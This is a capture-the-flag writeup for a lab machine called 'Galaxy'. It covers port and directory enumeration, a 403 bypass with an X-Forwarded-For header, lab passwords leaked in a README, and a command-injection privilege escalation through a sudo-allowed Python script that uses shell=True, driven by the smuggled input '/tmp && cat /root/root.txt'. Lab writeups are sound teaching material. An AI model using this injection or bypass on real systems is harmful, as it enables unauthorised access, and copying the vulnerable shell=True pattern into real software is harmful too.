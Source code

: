# [Galaxy]

## Introduction

Galaxy is easy level machine In this challenge, machine hosting a beta website about facts. The site was vulnerable to bypassing the 403 Forbidden restriction using the X-Forwarded-For header. After successfully bypassing the restriction, I accessed the "doston" user account, where their password was leaked. The "doston" user had a custom .sh file that, we can exploit rce.

## Info for HTB

### Access

Passwords:

| User  | Password                            |
| ----- | ----------------------------------- |
| doston | Ab401c |
| root  | root8618 |

### Key Processes

1) SSH server on 22 port
2) Apache2 server on 80 port which is vulnerable to http host header
3) There is custom copy.sh file in doston user's home directory which is vulnerable to rce

### Automation / Crons
There is no automation

### Firewall Rules

There is no firewall rule

### Docker

There is no docker

### Other

1)I made my own ip address to redirect to galaxy.htb in /etc/apache2/sites-avialabel/000-default.conf<br>
2) I specifically made doston user unable to see following directory and files: <br>/etc/passwd<br> /etc/shells/<br> /home (but can access it's own directory)<br> /var


# Writeup

# Enumeration

We begin enumeration with nmap tools from ports of target:<br>
`sudo nmap -sC -sV 192.168.2.110 -p- --min-rate=1000 -T4`<br>
`-sC` This flag for basic scripting<br>
`-sV` This flag for to check version<br>
`-p-` To check all ports we do not want to miss any<br>
`-T4` This flag to make scaning slightly faster (default -T3 when you don't specify)<br>
`--min-rate=1000` This is minimum rate of nmap packets<br>

![image](https://github.com/user-attachments/assets/0ceb7925-bc85-46b2-a07c-a15b77d72ce6)

We can see there are 22 and 80 port open. Website has galaxy.htb domain we need to add that domain with it's IP to our /etc/hosts file :<br>
```
echo "192.168.2.110       galaxy.htb" | sudo tee -a /etc/hosts
```
Website looks like blog about cosmos and it is in beta version
<br>
<br>
![image](https://github.com/user-attachments/assets/402a2623-84b0-4d82-97a7-1fbe5681ee21)

Let's enumerate directories and subdirectories using ffuf tool:<br>
```
ffuf -u http://galaxy.htb/FUZZ -w /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt
```
<br>
We find /developers and /photos directories and /developers directory gives us 403 forbidden error<br>

![image](https://github.com/user-attachments/assets/27c54f85-4952-4b13-8040-9c07dea34883)
<br>
Trying to enumerate any subdomains other directory leads us nothing. So we try to find a way to access /developers directory.<br>
Googling 403 bypass error we find [this](https://github.com/justdoston/403-Bypass) documentation.<br>
According to documentation trying to add forward headers with 127.0.0.1 ip will work, because server will think user trying to access from internal IP address.<br>

Let's use proxy forwarding tool such as burp suite to manupulate and try this technique.<br>
![image](https://github.com/user-attachments/assets/605568f6-ecb7-4b28-a860-f5d9f7f40430)


`X-Forwarded-For: 127.0.0.1` header successfuly worked to bypass<br>
![image](https://github.com/user-attachments/assets/5dd16a1c-d07d-482a-bb48-c757fe1961a4)

# Foothold

We use same technique to see content of README.md file:<br>
```
Message from team leader!!!

Attention Developers!

I will not be able to come to the office next week, and I have already discussed the matter with the manager. 

As we all know, we have important ongoing projects that need to be completed. We cannot afford delays or hit a dead end.

To ensure progress continues, I created temporary user with my name. You can log in using the password: Ab401c. 

However, please use ONLY my user to transfer completed web files and consider /developers directory as testing directory. 

Please prioritize completing the project during this time.

Best regards,
Doston
```

<br>
Accoridng to message for some reason team leader is not avialable next weak and he created temporary user with his name which is `doston` let's try to login via ssh<br>

![image](https://github.com/user-attachments/assets/afb30792-72f1-4ba8-9bcb-2b82cd112ed4)
<br>
We are in! user flag can be found from /home/doston/user.txt <br>
doston user has limited and restricted access which is not default. We can not enumerate web directory nor we can not know possible usernames for lateral movement.<br>
![image](https://github.com/user-attachments/assets/1a9203e6-5794-4822-8575-e9d801120e3f)
<br>
But our user allowed to run copy.sh file as sudo without password:<br>
`sudo -l`<br>
```
$ sudo -l
Matching Defaults entries for doston on galaxy:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User doston may run the following commands on galaxy:
    (ALL) NOPASSWD: /home/doston/copy.sh
```
Let's analyze content of copy.sh file:<br>
```
#!/usr/bin/python
import os
import shutil
import stat
import subprocess  

def main():

   
    file_path = input("Enter the full path of the file to copy: ")
 
    target_dir = input("Enter full path of the directory to paste: ")


   
    if not file_path.startswith('/home/doston/'):
        print("Error: Only files from /home/doston directory are allowed.")
        return

    
    if os.path.islink(file_path):
        print("Error: The file is a symlink and cannot be copied.")
        return

    
    inode_count = os.stat(file_path).st_nlink
    if inode_count > 1:
        print("Error: The file is a hard link and cannot be copied.")
        return

    try:
        
        print(f"Attempting to copy the file from {file_path} to {target_dir}")
       
        subprocess.run(f"cp {file_path} {target_dir}", shell=True, check=True)
        print(f"File successfully copied to {target_dir}.")
    except subprocess.CalledProcessError as e:
        print(f"Error: Failed to copy the file. {e}")

if __name__ == "__main__":
    main()
```
This script written python code which asks file and location to copy if we look at it it uses shell and os commands to copy file which is dangerous !<br>
Take a look at this part:
`subprocess.run(f"cp {file_path} {target_dir}", shell=True, check=True)`
This line of code uses shell to copy file with `cp` command but it is vulnerable to remote code execution!<br>
When script asks target directory to copy file we can add extra command after directory like:<br>
`/tmp && cat /root/root.txt` and we have root flag!

